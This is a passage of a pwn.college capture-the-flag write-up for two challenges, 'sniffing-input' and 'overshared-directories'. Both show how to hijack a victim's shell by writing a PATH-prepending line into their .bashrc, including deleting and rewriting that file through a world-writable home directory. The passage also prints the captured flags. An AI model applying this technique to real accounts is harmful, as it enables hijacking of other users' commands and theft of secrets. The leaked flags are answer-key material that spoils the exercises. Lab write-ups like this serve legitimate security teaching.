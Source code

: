 ```bash
```
> zardus' `.bashrc` content
```bash
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
PATH="/home/hacker:$PATH"
```
> output
```
hacker@shenanigans~sniffing-input:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag, victim: 
*************************************************************
pwn.college{wN8DGlwpcbeFjj3YKaeQh-S_THw.0VNzEzNxwyNyAzNzEzW}
zardus@shenanigans~sniffing-input:~$ exit
logout
```


## Overshared Directories
In this challenge, for convenience, Zardus opened up his home directory:
```
zardus@dojo:~$ chmod a+w /home/zardus
```
As you know, there are lots of sensitive files in that directory such as `.bashrc`! Can you replicate the previous attack with write access to `/home/zardus` instead of `/home/zardus/.bashrc`?
### Solve
**Flag:** `pwn.college{wP4YWOwM_YFwjQYq3UBT92q3uow.0FM0EzNxwyNyAzNzEzW}`
- copy existing content of `/home/zardus/.bashrc`.
- delete the file.
- add the contents to a newly created `.bashrc` file.
- append the lines that updates the `PATH` variable.
```bash
hacker@shenanigans~overshared-directories:~$ code /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$ echo "PATH='/home/hacker:$PATH" >> /home/zardus/.bashrc
bash: /home/zardus/.bashrc: Permission denied
hacker@shenanigans~overshared-directories:~$ rm /home/zardus/.bashrc
rm: remove write-protected regular file '/home/zardus/.bashrc'? y
hacker@shenanigans~overshared-directories:~$ echo "PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '" > /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$ echo "PATH='/home/hacker:$PATH'" >> /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag, victim: 
*************************************************************
pwn.college{wP4YWOwM_YFwjQYq3UBT92q3uow.0FM0EzNxwyNyAzNzEzW}
zardus@shenanigans~overshared-directories:~$ exit
logout
```
